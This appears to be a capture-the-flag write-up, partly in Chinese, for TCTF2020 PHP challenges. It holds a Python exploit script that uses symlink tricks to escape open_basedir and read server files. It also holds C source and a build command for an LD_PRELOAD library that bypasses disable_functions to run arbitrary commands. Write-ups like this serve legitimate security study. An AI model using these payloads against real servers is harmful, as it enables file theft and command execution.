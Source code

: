 # TCTF2020

## Cloud Computing

``symlink``绕过``open_basedir``

payload

```python
def exploit(f):
    print f
    payload="""
error_reporting(E_ALL);
mkdir('{4}{0}/b/c/d/e/f/g/',0777,TRUE);symlink('{4}{0}/b/c/d/e/f/g','{4}{1}');
ini_set('open_basedir','{4}:{4}{2}/');
symlink('{4}{1}/../../../../../../','{4}{2}');
unlink('{4}{1}');
echo base64_encode(file_get_contents('{4}{2}{3}'));
""".format(randomstr(),randomstr(),randomstr(),f,"/var/www/html/sandbox/f700deb7a6e26f106e3103e6257bb68a75a1a5f3/")
    poc= payload.replace("\n",'')
    #print poc
    headers = {
        "eki":poc
    }
    req=requests.get(url1,headers=headers)
    print req.text
    if "failed to open stream" not in req.text:
        try:
            retf = open(f.replace("/",'')+"1","wb")
            retf.write(base64.b64decode(req.text))
            retf.close()
        except:
            print "error"
            pass
```

## Cloud Computing V2

这里把``/flag`` ban了，没想到要内网渗透....

``file_get_contents``支持``http``协议

## Wallbreak Easy

```
Imagick is a awesome library for hackers to break `disable_functions`.
So I installed php-imagick in the server, opened a `backdoor` for you.
Let's try to execute `/readflag` to get the flag.
```

题目要求绕过``disabled_function``而且提到了``php-imagick``预期是利用这个扩展来bypass

```c
#include <stdlib.h>
#include <string.h>
void payload() {
    const char* cmd = getenv('CMD');
    system(cmd);
}
int fflush() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

生成so文件
```
gcc -fPIC -shared hack1.c -o hack1.so
```

### 参考资料

TCTF2019 WallBreaker-Easy 解题分析：https://xz.aliyun.com/t/4688#toc-5
